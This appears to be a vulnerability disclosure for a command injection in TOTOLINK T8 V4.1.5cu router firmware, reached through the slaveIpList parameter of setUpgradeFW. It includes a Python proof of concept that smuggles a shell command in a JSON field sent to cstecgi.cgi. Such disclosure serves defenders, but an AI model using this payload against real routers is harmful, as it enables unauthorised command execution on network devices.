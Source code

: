 # TOTOLINK  T8 V4.1.5cu was discovered to contain a command injection vulnerability via the slaveIpList parameter in the function setUpgradeFW

## Description

TOTOLINK  T8 V4.1.5cu was discovered to contain a command injection vulnerability via the slaveIpList parameter in the function setUpgradeFW

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

In function `sub_421678`,The "slaveIpList" parameter does not filter user input, which can cause command injection vulnerabilities

![image-20230116192918205](images/3.png)

POC

```
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1672999258:2"}
data = {'FileName':'aa', 'slaveIpList':'0\"|ls />/tmp/setUpgradeFW.txt|echo \"22', 'topicurl':'setting/setUpgradeFW'}
rep = requests.post(url, cookies=cookie, json=data)
print(rep.status_code)
print(rep.text)
```

![image-20230116192841151](images/4.png)
